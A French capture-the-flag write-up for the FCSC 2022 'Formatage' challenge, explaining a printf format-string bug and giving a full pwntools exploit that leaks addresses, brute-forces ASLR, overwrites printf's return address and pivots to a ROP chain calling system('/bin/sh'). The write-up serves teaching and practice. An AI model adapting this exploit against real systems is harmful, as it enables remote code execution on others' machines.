

#### Formatage

était un challenge de vulnérabilité de type format string du FCSC 2022

challenge on ne peut plus classique, comme il en revient régulièrement dans les CTFs.

la résolution est la même que pour tous les challenges de ce type..

j'ai plusieurs write-ups dans mon github qui expliquent comment résoudre ce type de challenge,

comme celui ci par exemple:

https://github.com/nobodyisnobody/write-ups/tree/main/DigitalOverdose.2021/pwn/uncurved

qui a une sandbox en plus, mais dans le principe le début est le même.

ou celui ci aussi:

https://github.com/nobodyisnobody/write-ups/tree/main/Imaginary.CTF.2021/pwn/inkaphobia

et d'autres encore..

le reverse est rapide:



Un buffer est alloué sur la heap avec `getline()`, il est directement affiché avec `printf()` (c'est là la vulnérabilité format string)

En suite le buffer est libéré par `free()`, et le programme sort directement via `exit()`

Pour l'exploitation, les étapes sont les suivantes:

`main()` sortant directement via `exit()`, on essaiera de réécrire sur l'addresse de retour de `printf()` sur la stack.

pour avoir un ret2main en premier

pour cela on utilise une combinaison de '`*c`'  et de '`%hn`'  pour réécrire sur une addresse stack de `env[]`, les variables d'environnements, afin qu'elle pointe sur la return address de printf() , cela nécessire un peu de bruteforce, car l'ASLR est plus ou moins auspicieuse.. (si la valeur 32bits de *c est plus grande que 0x80000000, l'opération échouera).. tout en faisant cela on leak une addresse de libc et de la stack, que l'on récupère à la volée. et on s'en sert pour attendre une ASLR favorable de la stack.

Car la format string n'étant pas blind, nous devons lire tout les caractères retournés, ce qui prendrai trop de temps si les valeurs 32bit basse de l'addresse stack sont trop grandes...

quand toutes ces planètes seront alignées convenablement, notre ret2main fonctionnera et à partir de là,

nous connaitront les addresses de mapping de la libc, stack et prog base...

à partir de ce moment nous écrivont un ROP sur la stack,

et remplaçont l'addresse de retour de printf() par une instruction nous permettant de pivoter sur notre ROP

et nous avons notre shell


les serveurs étant assez rapides, le bruteforce n'est pas très long..quelques minutes en général..

L'exploit, pour ceux qui voudraient étudier le code de plus près ;)

```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-
from pwn import *

context.update(arch="amd64", os="linux")
context.log_level = 'error'

exe = ELF('./formatage_patched')
libc = ELF('./libc.so.6')

host, port = "challenges.france-cybersecurity-challenge.fr", "2057"

count = 0
while(count<1024):
  print('count = '+str(count))
  if args.REMOTE:
    p = remote(host,port)
  else:
    p = process(exe.path)
  payload = '%p.'+'%c'*13+'.%p.'+'%c'*3+'.%p.'+'%c'*12+'%65109c'+'%*c'+'%hn'+'%8c'+'%49$hhn'+'TOTO' #+'%65172c'+'%hn.%p.'+'%c'*19+'%hhn'+'TOTO'
  p.sendline(payload)
  libc.address = int(p.recvuntil('.',drop=True),16) - 0x218b03
  print('libc.base = '+hex(libc.address))

  p.recvuntil('.',drop=True)
  stack = int(p.recvuntil('.',drop=True),16)
  print('stack = '+hex(stack))
  if ((stack & 0xff000000) > 0x05000000):
    p.close()
    count += 1
    continue

  p.recvuntil('.',drop=True)
  progbase = int(p.recvuntil('.',drop=True),16) - 0x11c9
  print('progbase = '+hex(progbase))

  try:
    p.recvuntil('TOTO', drop=True)
    low1 = (progbase+0x11d5)&0xffff
    p.sendline('%'+str(low1)+'c'+'%49$hn.TITI')
    p.recvuntil('TITI', drop=True)
    if args.GDB:
      q=gdb.attach(p, gdbscript = '''
      source ~/gdb.plugins/gef/gef.py
      gef config context.show_opcodes_size 9
      gef config context.libc_args True
      gef config context.libc_args_path  ~/gdb.plugins/gef-extras/glibc-function-args/
      pie breakpoint 0x1256
      ''')
    break
  except:
    p.close()
    count += 1
    continue

binsh_str = libc.address + 0x1dbcba
pop_rdi = libc.address + 0x000000000002e6c5 # pop rdi ; ret
ret = progbase + 0x101a
shift = libc.address + 0x00000000000a4a04 # add rsp,+0xe8

def writes(addr, value):
  global progbase
  low1 = (progbase+0x11d5)&0xffff
  for i in range(8):
    print('round'+str(i))
    low2 = (addr+i)&0xffff
    if (low1<low2):
      payload = '%'+str(low1)+'c'+'%49$hn'+'%'+str(low2-low1)+'c%18$hn'+'TITI'
    else:
      payload = '%'+str(low1)+'c'+'%49$hn'+'%'+str((65536-low1)+low2)+'c%18$hn'+'TITI'
    p.sendline(payload)
    p.recvuntil('TITI',drop=True)
    p.sendline('%'+str(low1)+'c'+'%49$hn'+'%'+str( (0x100-(low1&0xff))+ord(value[i]) )+'c%47$hhn'+'TITI')
    p.recvuntil('TITI',drop=True)
    
writes((stack-0x58),  p64(pop_rdi))
writes((stack-0x50),  p64(binsh_str))
writes((stack-0x48),  p64(libc.sym['system']))
writes((stack-0x148),  p64(shift))

low1 = (ret)&0xffff
payload = '%'+str(low1)+'c'+'%49$hnTITI'
p.sendline(payload)
p.recvuntil('TITI',drop=True)

p.interactive()
```

